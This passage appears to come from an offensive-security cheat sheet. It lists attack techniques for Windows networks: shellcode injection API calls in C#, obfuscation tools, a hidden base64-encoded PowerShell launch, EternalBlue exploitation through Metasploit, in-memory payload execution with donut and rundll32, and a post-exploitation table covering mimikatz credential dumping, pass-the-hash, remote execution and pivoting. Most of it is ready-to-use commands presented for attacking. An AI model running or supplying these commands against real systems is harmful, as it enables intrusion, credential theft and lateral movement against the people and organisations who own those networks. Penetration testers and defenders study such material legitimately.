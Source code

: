 #### ⚙️ 2. Inline Shellcode Injection (C#)

```csharp
VirtualAlloc(...)
WriteProcessMemory(...)
CreateThread(...)
```

#### 💣 3. Obfuscation Techniques

| Technique             | Example Tool                  |
| --------------------- | ----------------------------- |
| Base64 / XOR Encoding | `Invoke-Obfuscation`          |
| Function Renaming     | `Donut`                       |
| Shellcode Stagers     | `SharpShooter`                |
| PowerShell Downgrade  | Force PowerShell v2 execution |

***

### VI. ⚙️ Exploitation & Execution

#### 🧠 1. PowerShell Execution

```powershell
powershell -nop -w hidden -enc <base64_payload>
```

#### ⚙️ 2. Exploit Delivery

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.105
run
```

#### 💣 3. In-Memory Execution

```bash
donut --arch x64 --format shellcode beacon.exe
rundll32.exe shell32.dll,Control_RunDLL payload.bin
```

***

### VII. ⚙️ Post-Exploitation & Lateral Movement

| Technique               | Command / Tool                      | Description                        |
| ----------------------- | ----------------------------------- | ---------------------------------- |
| **Credential Dumping**  | `mimikatz sekurlsa::logonpasswords` | Extract plaintext creds            |
| **Token Impersonation** | `incognito` (Meterpreter)           | Move under another user’s identity |
| **Pass-the-Hash**       | `pth-winexe`, `crackmapexec`        | Authenticate without password      |
| **WMI / SMB Execution** | `wmiexec.py`, `psexec.py`           | Remote code execution              |
| **AD Enumeration**      | `BloodHound`, `SharpHound`          | Map domain trust paths             |
| **Pivoting**            | `Chisel`, `ProxyChains`             | Internal network tunneling         |

